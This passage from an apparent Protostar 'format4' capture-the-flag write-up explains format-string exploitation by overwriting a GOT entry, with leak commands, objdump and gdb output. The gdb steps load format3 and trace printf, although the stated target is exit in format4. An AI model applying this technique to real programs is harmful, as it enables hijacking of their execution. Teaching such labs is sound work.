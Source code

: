 - If **the GOT entry** is empty (not yet resolved), **the PLT** calls the dynamic linker (`ld.so`), which finds the actual address of `exit()` in `libc` and updates **the GOT entry** with this address.
- If **the GOT entry** is already filled, the function is called directly from **the GOT** without needing **the PLT** again.

We can exploit this by using **printf()** to overwrite the GOT entry for `exit`, replacing its stored address with the address of our **hello()** function. That way, when `exit()` is called, the program will execute `hello()` instead, successfully redirecting the program execution.

### Exploit

As usual, we first need to find the location of our input in the stack:

```shell
user@protostar:/opt/protostar/bin$ python -c 'print "AAAA" + ".%x" * 5' | ./format4
AAAA.200.b7fd8420.bffff614.41414141.2e78252e
```

So, our input starts at the 4th location in the stack.

Next, we will use `objdump` to find the addresses of **hello()**:

``` shell
user@protostar:/opt/protostar/bin$ objdump -t ./format4 | grep hello
080484b4 g     F .text  0000001e              hello
```

Remember that we first go to **the PLT entry**, then we can get access to **the GOT entry**. So, our goal is simple: find **the PLT entry**, disassemble it, and from there, we'll get **the GOT entry**.

```shell
user@protostar:/opt/protostar/bin$ gdb ./format3
(gdb) set disassembly-flavor intel
(gdb) set pagination off
(gdb) disassemble vuln
...
0x080484c9 <vuln+98>:   call   0x804837c <printf@plt>
0x080484ce <vuln+103>:  leave
0x080484cf <vuln+104>:  ret
End of assembler dump.
```

So, `printf()` is being called through its **PLT stub** at `0x0804837c`. Let's disassemble it to see what's inside:

```shell
(gdb) disassemble 0x804837c
Dump of assembler code for function printf@plt:
0x0804837c <printf@plt+0>:      jmp    DWORD PTR ds:0x80496d8
0x08048382 <printf@plt+6>:      push   0x18
0x08048387 <printf@plt+11>:     jmp    0x804833c
End of assembler dump.
```

The first instruction jumps to the address stored at `0x80496d8`, which means that's our **GOT entry** for `printf`. Let's examine it:
